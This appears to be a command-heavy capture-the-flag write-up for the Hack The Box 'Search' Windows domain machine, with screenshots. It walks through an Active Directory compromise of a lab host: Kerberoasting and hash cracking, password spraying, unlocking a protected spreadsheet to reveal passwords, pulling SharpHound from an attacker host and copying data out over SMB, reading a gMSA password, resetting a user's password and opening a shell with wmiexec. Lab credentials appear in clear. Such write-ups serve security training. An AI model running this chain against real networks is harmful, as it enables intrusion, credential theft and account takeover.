 ```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
Read GMSA Password
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699143-58aa6593-510f-4de6-be67-cbf555c08f22.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.129/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/230701612-546d5a49-33f8-4063-8d96-72d2d45f9cfe.png)


hope.sharp | IsolationIsKey?

![image](https://user-images.githubusercontent.com/33616880/230699047-df9e814d-0ef6-4377-97bd-72824e5dd6e5.png)


```
crackmapexec smb 10.10.11.129 -u Hope.Sharp -p IsolationIsKey?
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e60a5f3f-687d-49d2-854f-83268863b008)


```
smbclient -L \\\\10.10.11.129\\ -U search.htb/hope.sharp
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
```
![image](https://user-images.githubusercontent.com/33616880/230700602-75be21ee-a7d1-4ed8-8465-1a226ae419f0.png)
![image](https://user-images.githubusercontent.com/33616880/230700731-c773018c-6f8d-4ed7-8812-ced8a52b3d05.png)


```
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
```
![image](https://user-images.githubusercontent.com/33616880/230699359-15a9ef35-6723-4822-b1e6-ab93ec59e2cb.png)
![image](https://user-images.githubusercontent.com/33616880/230699421-3b664dda-82d1-473a-8c1f-2b29de81fb90.png)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
```
![image](https://user-images.githubusercontent.com/33616880/230699598-ab7213a0-fb91-4395-a5b0-345b7e2fb34a.png)


```
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
```
web_svc | @3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230699690-2850b510-c824-49fa-a20f-c4a3044c0fc1.png)


![image](https://user-images.githubusercontent.com/33616880/230699760-4770c7a8-b7ee-4a9d-9398-d2298e8863e4.png)


```
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
```
![image](https://user-images.githubusercontent.com/33616880/230700117-68ed59b8-9ab2-4831-be38-7421ada171f7.png)



```
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
```
search.htb\Edgar.Jacobs:@3ONEmillionbaby

![image](https://user-images.githubusercontent.com/33616880/230700260-1809d1ec-e297-4d00-9ba5-5213526fed84.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Edgar.Jacobs
```
![image](https://user-images.githubusercontent.com/33616880/230700969-8a257621-812a-4357-b398-5949598ce182.png)


![image](https://user-images.githubusercontent.com/33616880/230701046-18ec17fc-1694-4a03-9a76-90f26e1ae622.png)
```
unzip Phishing_Attempt.xlsx
sed -i 's/<sheetProtection[^>]*>//' xl/worksheets/sheet2.xml
zip -fr Phishing_Attempt.xlsx *
```
Sierra.Frye | $$49=wide=STRAIGHT=jordan=28$$18

![image](https://user-images.githubusercontent.com/33616880/230701177-73c2b4d3-8c15-4e0d-9930-900c7ce19fcf.png)
![image](https://user-images.githubusercontent.com/33616880/230701253-86e219b9-7f85-4d24-a73a-479962c1c0fa.png)


```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/Sierra.Frye
```
![image](https://github.com/regarmulia/HTB/assets/33616880/74e7abd8-4bb1-4dce-99a5-a9adeeb4d3ab)
![image](https://user-images.githubusercontent.com/33616880/230701452-c57c8661-21de-4ef7-bc42-0e57ef04ab48.png)
![image](https://user-images.githubusercontent.com/33616880/230701555-c290fc03-b77a-4471-8dbf-3ebf49ad7348.png)



![image](https://user-images.githubusercontent.com/33616880/230701672-0cf8bba7-d1d6-442d-b859-5371cf1395d7.png)
![image](https://user-images.githubusercontent.com/33616880/230701705-26df0b61-24f9-4d58-a34f-b7830a9f3358.png)
```
pfx2john staff.pfx > pfx_hash
john pfx_hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/33616880/230701880-f44b38ab-db4a-45e3-9544-d36bb638e82f.png)
![image](https://user-images.githubusercontent.com/33616880/230701923-cfcd0109-1539-44e5-94e6-5200460228e7.png)


![image](https://user-images.githubusercontent.com/33616880/230702031-e7010f86-fe69-4c70-897d-f3312121b1b4.png)
```
python3 -m http.server 80
wget 10.10.14.4/SharpHound.exe -o SharpHound.exe
./SharpHound.exe
```
![image](https://user-images.githubusercontent.com/33616880/230702230-01468743-51b4-4de4-8cc5-d551ec9d23b7.png)
![image](https://user-images.githubusercontent.com/33616880/230702368-31f4bfd3-58cc-41fd-a2d2-6ffa6264cda3.png)



```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.4\share /u:df df
copy 20230408050326_BloodHound.zip \\10.10.14.4\share\
```
![image](https://user-images.githubusercontent.com/33616880/230702582-cbaa9574-1756-4d57-9405-98a64c26d111.png)
![image](https://user-images.githubusercontent.com/33616880/230702543-ff4a81d9-d0e4-4c98-a178-ecd3f25e694f.png)


```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/230702699-6fd438f6-781c-4644-85b6-772e17713fd8.png)


mark user as owned

shortest to admin

![image](https://github.com/regarmulia/HTB/assets/33616880/b6436221-4812-48bd-a50b-f48afe06e4d7)


```
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword


$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText '0xdf0xdf!!!' -force)} -Credential $cred
```


![image](https://user-images.githubusercontent.com/33616880/230703076-28fdc717-d1b7-4ea9-94bd-1c35d378850e.png)
![image](https://user-images.githubusercontent.com/33616880/230703110-45490071-b360-4172-91bf-735b46483878.png)


```
crackmapexec smb 10.10.11.129 -u tristan.davies -p '0xdf0xdf!!!'
```
![image](https://user-images.githubusercontent.com/33616880/230703231-2e3c66d2-d334-42e4-942b-451e11657cc7.png)



```
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```
![image](https://user-images.githubusercontent.com/33616880/230714809-9dd294bd-b315-40d8-b82c-082a0a133860.png)

![image](https://user-images.githubusercontent.com/33616880/230714830-96b20de5-c6d6-477f-9fe4-318864d1972f.png)

